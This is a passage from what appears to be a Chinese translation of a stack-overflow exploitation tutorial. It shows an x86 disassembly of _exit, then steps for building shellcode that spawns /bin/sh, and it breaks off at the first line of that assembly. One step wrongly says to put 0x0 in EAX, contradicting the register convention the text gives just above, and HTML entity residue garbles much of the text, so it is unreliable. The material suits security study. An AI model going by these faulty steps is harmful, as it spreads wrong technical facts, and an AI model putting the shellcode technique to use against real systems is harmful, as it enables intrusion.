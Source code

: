 0x800034f &lt;_exit+3&gt;:&nbsp; &nbsp; pushl&nbsp;&nbsp;%ebx

0x8000350 &lt;_exit+4&gt;:&nbsp; &nbsp; movl&nbsp; &nbsp;$0x1,%eax

0x8000355 &lt;_exit+9&gt;:&nbsp; &nbsp; movl&nbsp; &nbsp;0x8(%ebp),%ebx

0x8000358 &lt;_exit+12&gt;:&nbsp; &nbsp;int&nbsp; &nbsp; $0x80

0x800035a &lt;_exit+14&gt;:&nbsp; &nbsp;movl&nbsp; &nbsp;0xfffffffc(%ebp),%ebx

0x800035d &lt;_exit+17&gt;:&nbsp; &nbsp;movl&nbsp; &nbsp;%ebp,%esp

0x800035f &lt;_exit+19&gt;:&nbsp; &nbsp;popl&nbsp; &nbsp;%ebp

0x8000360 &lt;_exit+20&gt;:&nbsp; &nbsp;ret

0x8000361 &lt;_exit+21&gt;:&nbsp; &nbsp;nop

0x8000362 &lt;_exit+22&gt;:&nbsp; &nbsp;nop

0x8000363 &lt;_exit+23&gt;:&nbsp; &nbsp;nop

End of assembler dump.

------------------------------------------------------------------------------

&nbsp; &nbsp; 系统调用exit会把0x1放到寄存器EAX中, 在EBX中放置退出码, 并且执行"int 0x80".

就这些了! 大多数应用程序在退出时返回0, 以表示没有错误. 我们在EBX中也放入0. 现

在我们构造shell code的步骤就是这样的了:

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;a) 把以NULL结尾的字串"/bin/sh"放到内存某处.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;b) 把字串"/bin/sh"的地址放到内存某处, 后面跟一个空的长字(null long word)

.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;c) 把0xb放到寄存器EAX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;d) 把字串"/bin/sh"的地址放到寄存器EBX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;e) 把字串"/bin/sh"地址的地址放到寄存器ECX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;(注: 原文d和e步骤把EBX和ECX弄反了)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;f) 把空长字的地址放到寄存器EDX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;g) 执行指令int $0x80.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;h) 把0x1放到寄存器EAX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;i) 把0x0放到寄存器EAX中.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;j) 执行指令int $0x80.&nbsp;&nbsp;

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;

&nbsp; &nbsp; 试着把这些步骤变成汇编语言, 把字串放到代码后面. 别忘了在数组后面放上字串

 地址和空字, 我们有如下的代码:

------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;string_addr,string_addr_addr
